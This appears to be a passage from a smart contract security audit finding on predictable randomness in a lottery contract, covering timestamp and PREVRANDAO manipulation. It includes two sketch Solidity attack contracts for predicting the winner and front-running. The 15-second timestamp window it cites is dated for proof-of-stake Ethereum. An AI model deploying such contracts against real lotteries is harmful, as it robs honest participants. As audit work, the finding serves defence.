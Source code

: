 **Impact:**

- Validators can manipulate `block.timestamp` within a 15-second window to influence outcomes
- Attackers can predict winners using known blockchain values before transaction execution
- MEV bots can front-run favorable outcomes or delay unfavorable ones
- Complete compromise of lottery fairness and user trust
- Economic loss for legitimate participants who never have a fair chance to win

**EIP-4399 Context:**

After Ethereum's transition to Proof of Stake (The Merge, September 2022), `block.difficulty` now returns the `PREVRANDAO` value from the beacon chain. While this improves randomness compared to PoW difficulty, it still has limitations:

- **Validator influence**: Each block proposer has 1-bit of influence per slot
- **Predictability**: Validators know PREVRANDAO values 1-2 slots in advance
- **Censorship attacks**: Unfavorable transactions can be delayed to the next block

**Attack Scenarios:**

**1. Validator Timestamp Manipulation:**

```solidity
contract ValidatorAttack {
    function predictAndWin() external {
        uint256 currentTime = block.timestamp;
        uint256 currentRandom = block.difficulty; // PREVRANDAO
        
        // Try different timestamps within 15-second window
        for (uint256 offset = 0; offset <= 15; offset++) {
            uint256 futureTime = currentTime + offset;
            uint256 predictedWinner = uint256(keccak256(abi.encodePacked(
                address(this), futureTime, currentRandom
            ))) % players.length;
            
            if (players[predictedWinner] == address(this)) {
                // Propose block with manipulated timestamp
                return;
            }
        }
    }
}
```

**2. Front-running Attack:**

```solidity
contract FrontRunAttack {
    function monitorAndAttack() external {
        // Monitor mempool for selectWinner() transactions
        uint256 predictedWinner = uint256(keccak256(abi.encodePacked(
            tx.origin,          // Observable in mempool
            block.timestamp,    // Current block
            block.difficulty    // Current PREVRANDAO
        ))) % players.length;
        
        if (players[predictedWinner] != address(this)) {
            // Submit high-gas transaction to delay to next block
            // where outcome might be more favorable
        }
    }
}
```
